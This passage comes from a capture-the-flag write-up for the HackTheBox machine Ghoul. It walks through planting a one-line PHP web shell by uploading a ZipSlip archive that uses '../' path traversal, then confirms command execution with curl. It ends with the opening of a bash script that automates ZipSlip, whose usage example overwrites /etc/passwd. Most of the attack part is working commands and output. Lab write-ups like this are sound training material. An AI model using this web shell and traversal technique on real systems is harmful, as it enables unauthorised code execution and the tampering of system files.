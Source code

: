 ### WebShell

I've already seen the site is running php. I'll grab my trusty simple
php webshell, and copy it to the `/var/www.md` directory on my kali
host.



    root@kali# cp /opt/shells/php/cmd.php /var/www.md/
    root@kali# cat /var/www.md/cmd.php 
    <?php system($_REQUEST['cmd']); ?>



Now I'll add it to a zip file, but with a lot of `../` to ensure that I
get to the system root. Remember, Linux will ignore attempts to change
to a parent directory from `/`, so `/../../../` is the same as `/`:



    root@kali# zip mal.zip ../../../../../../var/www.md/cmd.php
      adding: ../../../../../../var/www.md/cmd.php (stored 0%)



I can check and make sure it stored correctly using `unzip -l` to list
the contents:



    root@kali# unzip -l ~/hackthebox/ghoul-10.10.10.101/mal.zip
    Archive:  /root/hackthebox/ghoul-10.10.10.101/mal.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           35  2019-05-18 15:58   ../../../../../../var/www.md/cmd.php
    ---------                     -------
           35                     1 file



Now I'll upload it to the site, and check, and my page is there on the
port 80 site:



    root@kali# curl http://10.10.10.101/cmd.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Script

I wrote a script to perform ZipSlip for me:



    #!/bin/bash

    function usage {
        echo "Usage: $0 [out_zip] [file] [desired path] <number of ../>"
        echo "  Number of ../ will be 8 if not given"
        echo "  desired path must be absolute"
        echo "  Ex: $0 evil.zip evil_passwd /etc/passwd 5"
        echo -e "\n$message"
        exit 1
    }
